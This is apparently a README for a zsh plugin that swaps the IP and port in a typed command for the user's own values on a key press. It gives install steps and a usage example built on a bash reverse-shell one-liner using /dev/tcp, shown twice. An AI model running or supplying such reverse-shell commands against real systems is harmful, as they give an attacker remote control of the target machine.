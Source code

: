 ## Install

### [oh-my-zsh](http://github.com/robbyrussell/oh-my-zsh)
- clone repo inside your oh-my-zsh repo
	```shell
	git clone https://github.com/Ha-L0/zsh-replace-ip-port ${ZSH_CUSTOM:-${ZSH:-~/.oh-my-zsh}/custom}/plugins/zsh-replace-ip-port
	```

- add `zsh-replace-ip-port` to plugins in `~/.zshrc` config
	```
	plugins(... zsh-replace-ip-port
	```

## Usage

```shell
export IP=123.123.123.123 # your ip
export PORT=1111 # your port
```

write or copy paste command with ip and port

```shell
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

before executing press `CTRL + o` and ip and port gets replaced

```shell
$ bash -i >& /dev/tcp/123.123.123.123/1111 0>&1
```

